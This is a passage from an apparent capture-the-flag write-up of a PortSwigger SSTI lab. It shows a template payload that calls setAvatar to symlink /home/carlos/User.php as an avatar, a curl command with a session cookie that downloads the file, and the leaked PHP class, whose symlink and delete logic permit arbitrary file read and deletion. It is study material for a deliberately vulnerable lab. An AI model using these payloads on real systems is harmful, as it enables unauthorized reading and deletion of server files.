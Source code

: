 **If we have local file read, let's read the source code of `/home/carlos/User.php`!**
```php
user.setAvatar('/home/carlos/User.php','image/png')
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Template-Injection/SSTI-7/images/Pasted%20image%2020221224010950.png)

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Server-Side-Template-Injection]
└─# curl https://0ad70054043a656fc360ed500022001c.web-security-academy.net/avatar --cookie "session=xsy5TfCl8CHOw6Q2GAm9MP741h7RiHrV" --get --data-urlencode "avatar=wiener" -o User.php
```

**User.php:**
```php
<?php

class User {
    public $username;
    public $name;
    public $first_name;
    public $nickname;
    public $user_dir;

    public function __construct($username, $name, $first_name, $nickname) {
        $this->username = $username;
        $this->name = $name;
        $this->first_name = $first_name;
        $this->nickname = $nickname;
        $this->user_dir = "users/" . $this->username;
        $this->avatarLink = $this->user_dir . "/avatar";

        if (!file_exists($this->user_dir)) {
            if (!mkdir($this->user_dir, 0755, true))
            {
                throw new Exception("Could not mkdir users/" . $this->username);
            }
        }
    }

    public function setAvatar($filename, $mimetype) {
        if (strpos($mimetype, "image/") !== 0) {
            throw new Exception("Uploaded file mime type is not an image: " . $mimetype);
        }

        if (is_link($this->avatarLink)) {
            $this->rm($this->avatarLink);
        }

        if (!symlink($filename, $this->avatarLink)) {
            throw new Exception("Failed to write symlink " . $filename . " -> " . $this->avatarLink);
        }
    }

    public function delete() {
        $file = $this->user_dir . "/disabled";
        if (file_put_contents($file, "") === false) {
            throw new Exception("Could not write to " . $file);
        }
    }

    public function gdprDelete() {
        $this->rm(readlink($this->avatarLink));
        $this->rm($this->avatarLink);
```